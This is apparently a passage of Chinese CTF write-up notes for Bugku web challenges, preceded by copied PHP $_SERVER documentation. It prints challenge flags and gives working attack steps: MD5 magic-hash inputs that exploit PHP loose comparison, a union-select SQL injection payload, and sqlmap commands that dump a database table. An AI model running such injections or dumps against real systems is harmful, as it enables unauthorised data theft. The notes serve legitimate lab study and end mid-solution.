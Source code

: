 			        Note: 自 PHP 4.3.2 起，PATH_TRANSLATED 在 Apache 2 SAPI 模式下不再和 Apache 1 一样隐含赋值，而是若 Apache 不生成此值，PHP 便自己生成并将其值放入 SCRIPT_FILENAME 服务器常量中。这个修改遵守了 CGI 规范，PATH_TRANSLATED 仅在 PATH_INFO 被定义的条件下才存在。 Apache 2 用户可以在 httpd.conf 中设置 AcceptPathInfo = On 来定义 PATH_INFO。 			
			33. 'SCRIPT_NAME'
			    包含当前脚本的路径。这在页面需要指向自己时非常有用。__FILE__ 常量包含当前脚本(例如包含文件)的完整路径和文件名。 
			34. 'REQUEST_URI'
			    URI 用来指定要访问的页面。例如 “/index.html”。 
			35. 'PHP_AUTH_DIGEST'
			    当作为 Apache 模块运行时，进行 HTTP Digest 认证的过程中，此变量被设置成客户端发送的“Authorization” HTTP 头内容（以便作进一步的认证操作）。 
			36. 'PHP_AUTH_USER'
			    当 PHP 运行在 Apache 或 IIS（PHP 5 是 ISAPI）模块方式下，并且正在使用 HTTP 认证功能，这个变量便是用户输入的用户名。 
			37. 'PHP_AUTH_PW'
			    当 PHP 运行在 Apache 或 IIS（PHP 5 是 ISAPI）模块方式下，并且正在使用 HTTP 认证功能，这个变量便是用户输入的密码。 
			38. 'AUTH_TYPE'
			    当 PHP 运行在 Apache 模块方式下，并且正在使用 HTTP 认证功能，这个变量便是认证的类型。 
			39. 'PATH_INFO'
			    包含由客户端提供的、跟在真实脚本名称之后并且在查询语句（query string）之前的路径信息，如果存在的话。例如，如果当前脚本是通过 URL http://www.example.com/php/path_info.php/some/stuff?foo=bar 被访问，那么 $_SERVER['PATH_INFO'] 将包含 /some/stuff。 
			40. 'ORIG_PATH_INFO'
			    在被 PHP 处理之前，“PATH_INFO” 的原始版本。 
		md5($key1)

		echo

		弱类型

		MD5碰撞

		http://120.24.86.145:8002/web16/index.php?kkeyey1=QNKCDZO&kkeyey2=240610708
		0e830400451993494058024219903391
		0e462097431906509019562988736854
		Bugku{OH_YOU_FIND_MY_MOMY}

20. 成绩单 90
	>快来查查成绩吧  
	>http://120.24.86.145:8002/chengjidan/

	解答：

		http://120.24.86.145:8002/chengjidan/index.php
		id=1' union select 1,2,3,4%23
		基于时间的盲注
		sqlmap.py -r r.txt -p id --dbs
		sqlmap.py -r r.txt -p id --tables -D skctf_flag
		sqlmap.py -r r.txt -p id --columns -T fl4g -D skctf_flag
		sqlmap.py -r r.txt -p id --dump -C skctf_flag -T fl4g -D skctf_flag

		BUGKU{Sql_INJECT0N_4813drd8hz4}

21. 秋名山老司机 100
	>http://120.24.86.145:8002/qiumingshan/  
	>是不是老司机试试就知道

	解答：

		http://www.bugku.com/thread-1057-1-1.html
		request:get与post
		res_g.encoding='UTF-8'
		正则表达式re.search(r'(\d+[+-*/])+(\d+)).group()'
		eval(exprssion)
		